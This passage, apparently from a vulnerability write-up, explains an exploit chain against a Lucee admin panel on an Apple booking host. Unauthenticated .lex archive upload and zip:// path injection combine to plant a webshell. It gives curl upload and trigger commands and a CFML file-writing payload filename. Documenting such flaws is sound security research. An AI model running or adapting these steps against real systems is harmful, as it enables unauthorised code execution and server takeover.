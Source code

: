 With the `.lex` extension we go through this piece of code: 

```cfm
<cfif cffile.serverfileext eq "lex">
...
        type="#request.adminType#"
...
</cfif>
```

Because we don't have `request.admintype` set, this causes an exception. However, our file is still uploaded before reaching this, as can be confirmed here: 

![File created regardless of exception](screenshots/Screenshot_63.png)

A `.lex` file is nothing but an archive or a zip file with '.lex' extension, which is actually a format of Lucee's extensions which we could upload. Also, there's no check on the contents, so we can set it to anything.

### Gist of the Exploit

From playing around with Lucee, we knew that it allows using protocol/schemes like zip://, file:// etc. (which we utilized in this exploit chain) so we could specify these schemes wherever a fileSystem function had our fully controlled input (**luceeArchiveZipPath** in this case).

We can now utilize `ext.applications.upload.cfm` to create `.lex` file which will have a ZIP archive containing a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with `"#stText.x.f#"` as content.

Once we have our ZIP archive on the filesystem, we can utilize **zip://** in the **luceeArchiveZipPath** variable to query within the ZIP archive for the **\*.\*.cfm** files ;).


### Getting a shell on the other 2 hosts

- Create a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with content `"#stText.x.f#"` and zip it as `payload.lex`

![payload](screenshots/Screenshot_64.png)

- Upload the `.lex` file via the aforementioned unauthenticated .lex file upload in `ext.applications.upload.cfm` 

`curl -vv -F extfile=@payload.lex https://booktravel.apple.com/lucee/admin/ext.applications.upload.cfm`

- Equipped with the arbitrary `.lex` (zip archive) on the file system and the zip:// scheme we can do something like this:

`curl https://booktravel.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/web/context/exploit/&luceeArchiveZipPath=zip:///full/path/lucee/web/temp/payload.lex`

- Now, our file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` has been added as text in the **searchindex.cfm** file under `/<lucee web>/context/exploit/` and we can access it via `https://booktravel.apple.com/<lucee root>/exploit/searchindex.cfm`

- Making a request to https://booktravel.apple.com/lucee/exploit/searchindex.cfm?f=test.cfm&output=cfml_shell will create our webshell
